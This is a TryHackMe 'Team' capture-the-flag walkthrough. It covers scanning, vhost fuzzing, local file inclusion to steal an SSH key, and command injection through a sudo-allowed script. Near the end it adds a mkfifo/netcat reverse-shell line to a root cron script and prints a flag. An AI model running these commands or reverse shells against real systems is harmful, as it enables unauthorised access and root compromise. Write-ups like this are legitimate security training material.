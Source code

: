 - - - 
created : 25-07-2025 

Tags : #easy 
- - - 
# Objective

**Please allow 3-5 minutes for the box to boot**
# Recon

## Rustscan - Nmap

We use [Rustscan](../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ rustscan -a team.thm -- -A 
 
Open 10.10.168.250:21
Open 10.10.168.250:22
Open 10.10.168.250:80
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.5
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Team
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
```

# Enumeration

## HTTP(80)

### Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) tu start [Enumeration](../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on the target :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  -u http://team.thm  

/.hta                 (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/index.html           (Status: 200) [Size: 2966]
/robots.txt           (Status: 200) [Size: 5]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/server-status        (Status: 403) [Size: 273]
Progress: 4746 / 4747 (99.98%)

```

![Pasted image 20250725204448.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725204448.png)

![Pasted image 20250725204548.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725204548.png)
### FFuf

Using [FFuf](../../3%20-%20Tags/Hacking%20Tools/FFuf.md) to fuzz vhosts :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -H 'Host: FUZZ.team.thm' -u http://team.thm -fs 11366 -c
________________________________________________

dev                     [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 60ms]
www                     [Status: 200, Size: 2966, Words: 140, Lines: 90, Duration: 57ms]
:: Progress: [20478/20478] :: Job [1/1] :: 632 req/sec :: Duration: [0:00:37] :: Errors: 0 ::

```

We use [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) to add them :

![Pasted image 20250725205143.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205143.png)

`dev.team.thm` :

![Pasted image 20250725205220.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205220.png)
![Pasted image 20250725205306.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205306.png)

### Caido

We can try [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) with [Caido](../../3%20-%20Tags/Hacking%20Tools/Caido.md) :

![Pasted image 20250725210416.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725210416.png)

![Pasted image 20250725211146.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211146.png)

![Pasted image 20250725211342.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211342.png)

And we can retrieve the first flag:

![Pasted image 20250725211728.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211728.png)
# Exploit

We retrieve `dale` [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) private key, i did it wit [Caido](../../3%20-%20Tags/Hacking%20Tools/Caido.md) and a [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) wordlist for linux systems (i tried not URL encoded and didn't worked):

![Pasted image 20250725215329.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725215329.png)
## SSH First Access

We save it and make it executable with `chmod 600 id_dale` then use it:

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ssh -i id_dale dale@team.thm                                                          
Last login: Mon Jan 18 10:51:32 2021
dale@ip-10-10-168-250:~$ ls
user.txt
dale@ip-10-10-168-250:~$ cat user.txt
THM{6Y0TXHz7c2d}
```

We have again the flag, retrievable from [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md) with [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) .
# Lateral Movement - Privilege Escalation

We can start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) by checking permissions :

```bash
dale@ip-10-10-168-250:/home$ sudo -l
Matching Defaults entries for dale on ip-10-10-168-250:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on ip-10-10-168-250:
    (gyles) NOPASSWD: /home/gyles/admin_checks
dale@ip-10-10-168-250:/home$ cd gyles
dale@ip-10-10-168-250:/home/gyles$ cat admin_checks 
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

We’ll be injecting in the error variable since we see that the variable is directly passed to a system call:

```bash
dale@ip-10-10-168-250:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: name
Enter 'date' to timestamp the file: /bin/bash
The Date is /bin/bash
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),108(lxd),1003(editors),1004(admin)
```

Now we have a shell as the user Gyle.

Also, going through “.bash_history”, we see a trace of Cronjob running.

Since, going through the file we see that it’s a bash script that copies some backups, we decided to edit the file and add a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) since we knew that a Cronjob was being executed:

```bash
cat main_backup.sh        
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.250.11.13 1337 >/tmp/f
```

We setup a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and wait for root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/Scrivania]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

```

Pwned !!